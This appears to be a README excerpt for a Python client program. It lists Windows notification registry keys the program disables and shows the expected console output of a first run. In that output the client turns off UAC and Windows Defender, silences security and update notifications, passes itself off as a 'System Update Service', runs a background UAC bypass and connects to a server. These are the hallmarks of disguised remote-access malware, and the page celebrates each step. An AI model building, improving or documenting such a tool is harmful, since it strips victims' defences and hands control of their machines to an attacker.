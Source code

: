 
### Notifications Disabled (15+ Registry Keys)

1. ✅ Action Center notifications
2. ✅ Toast notifications
3. ✅ Lock screen notifications
4. ✅ App notifications
5. ✅ Windows Welcome Experience
6. ✅ Notification badges
7. ✅ Cloud notifications
8. ✅ Gaming notifications
9. ✅ Quiet hours notifications
10. ✅ Focus assist notifications
11. ✅ Windows Update notifications
12. ✅ Security notifications
13. ✅ Network notifications
14. ✅ Device notifications
15. ✅ System notifications

**All notifications silenced!** ✅

---

## 🎯 EXPECTED BEHAVIOR

### First Run

```bash
python client.py

# Console output:
[STARTUP] === SYSTEM CONFIGURATION STARTING ===
[STARTUP] Step 1: Disabling UAC...
[REGISTRY] Setting EnableLUA = 0 (disabling UAC)
[REGISTRY] EnableLUA set successfully
[STARTUP] ✅ UAC disabled successfully

[STARTUP] Step 2: Disabling Windows Defender...
[DEFENDER] Attempting to disable Windows Defender...
[DEFENDER] Registry method succeeded
[STARTUP] ✅ Windows Defender disabled successfully

[STARTUP] Step 3: Disabling Windows notifications...
[NOTIFICATIONS] Disabling Action Center...
[NOTIFICATIONS] Disabling Toast notifications...
[STARTUP] ✅ Notifications disabled successfully

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===

System Update Service v2.1
Initializing system components...
...
Attempting UAC bypass in background...
✅ UAC bypass successful!
...
Connected to server
```
